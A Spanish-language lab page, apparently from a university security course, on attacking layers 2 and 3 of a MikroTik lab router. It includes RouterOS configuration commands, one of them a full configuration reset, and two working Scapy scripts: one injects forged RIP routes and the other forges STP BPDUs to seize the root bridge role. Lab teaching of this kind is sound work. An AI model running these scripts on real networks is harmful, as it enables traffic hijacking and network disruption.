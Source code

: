 ```yaml
---
theme: "just-the-docs"
title: "Ataque de Capa 2 y 3"
layout: default
nav_order: 8
parent: "ARRAY DIINF 2024"
---
```

# Explotacion Capa 2 y 3
## Configuracion Mikrotik
Opcionalmente si quieres borrar el mikrotik se puede usar el siguiente comando:
```
system reset-configuration
```
Para revisar las IPs en Mikrotik
```
ip add print
```
Configuracion de interface bridge, asignacion de IP y configuracion de RIP
```
interface bridge add name=bridge1
interface bridge port add bridge=bridge1 interface=ether1
ip dhcp-client add disabled=no interface=bridge1
routing rip interface add send=v1-2
routing rip network add network=192.168.85.0/24
```
Revision de la tabla de rutas
```
ip route print
```
## Creacion de script para inyeccion de rutas con RIP
```
nano rip.py
```
```
from scapy.all import *
PDU = Ether(dst="01:00:5e:00:00:09", src="aa:bb:cc:00:11:22", type="IPv4")
PDU /= IP(tos=192,ttl=2,proto=17,src="192.168.85.100",dst="224.0.0.9")
PDU /= UDP(sport=520, dport=520)
PDU /= RIP(cmd=2,version=2)
PDU /= RIPEntry(AF=2, RouteTag=1354, addr="2.0.0.0", mask="255.0.0.0", nextHop="0.0.0.0", metric=1)
sendp(PDU)
```
## Creacion de script para la manipulacion de STP
```
nano stp.py
```
```
from scapy.all import *
PDU = sniff(filter="ether dst 01:80:c2:00:00:00",count=1)
PDU[0].src="00:00:00:00:00:01”
PDU[0].rootid=0
PDU[0].rootmac="00:00:00:00:00:01”
PDU[0].bridgeid=0
PDU[0].bridgemac="00:00:00:00:00:01”
for i in range (0, 50):
    sendp(PDU[0])
    time.sleep(2)
```
```
interface bridge monitor bridge1
```

